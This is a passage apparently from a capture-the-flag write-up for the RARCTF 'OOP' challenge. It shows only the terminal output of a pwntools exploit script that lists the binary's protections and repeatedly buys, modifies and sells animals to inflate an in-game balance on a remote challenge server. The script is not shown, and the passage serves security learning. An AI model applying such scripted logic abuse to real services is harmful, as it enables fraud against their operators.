 Output of the script:
``` bash
$ python3 pwn6.py
[*] '/home/kali/Downloads/rarctf/OOP/oop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 193.57.159.27 on port 62750: Done
b'1) List Animals\n2) Act on Animal\n3) Buy New Animal\n4) Buy translator (1000c)\n5) Sell The Farm\n> '
Balance: 350
[*] Buying pig
b'1) List Animals\n2) Act on Animal\n3) Buy New Animal\n4) Buy translator (1000c)\n5) Sell The Farm\n> '
Balance: 200
[*] Changing max age of animal[1]
b'1) List Animals\n2) Act on Animal\n3) Buy New Animal\n4) Buy translator (1000c)\n5) Sell The Farm\n> '
Balance: 100
[*] Selling animal[1]
b'1) List Animals\n2) Act on Animal\n3) Buy New Animal\n4) Buy translator (1000c)\n5) Sell The Farm\n> '
Balance: 850
[*] Feeding animal[0]
[*] Buying pig
b'1) List Animals\n2) Act on Animal\n3) Buy New Animal\n4) Buy translator (1000c)\n5) Sell The Farm\n> '
Balance: 650
[*] Changing max age of animal[1]
b'1) List Animals\n2) Act on Animal\n3) Buy New Animal\n4) Buy translator (1000c)\n5) Sell The Farm\n> '
Balance: 550
[*] Selling animal[1]
b'1) List Animals\n2) Act on Animal\n3) Buy New Animal\n4) Buy translator (1000c)\n5) Sell The Farm\n> '
Balance: 1300
[*] Feeding animal[0]
[*] Buying pig
b'1) List Animals\n2) Act on Animal\n3) Buy New Animal\n4) Buy translator (1000c)\n5) Sell The Farm\n> '
Balance: 1100
[*] Changing max age of animal[1]
b'1) List Animals\n2) Act on Animal\n3) Buy New Animal\n4) Buy translator (1000c)\n5) Sell The Farm\n> '
Balance: 1000
[*] Selling animal[1]
b'1) List Animals\n2) Act on Animal\n3) Buy New Animal\n4) Buy translator (1000c)\n5) Sell The Farm\n> '
Balance: 1000
[*] Feeding animal[0]
[*] Buying pig
b'1) List Animals\n2) Act on Animal\n3) Buy New Animal\n4) Buy translator (1000c)\n5) Sell The Farm\n> '
Balance: 800
[*] Changing max age of animal[1]
b'1) List Animals\n2) Act on Animal\n3) Buy New Animal\n4) Buy translator (1000c)\n5) Sell The Farm\n> '
Balance: 700
[*] Selling animal[1]
b'1) List Animals\n2) Act on Animal\n3) Buy New Animal\n4) Buy translator (1000c)\n5) Sell The Farm\n> '
Balance: 1450
```
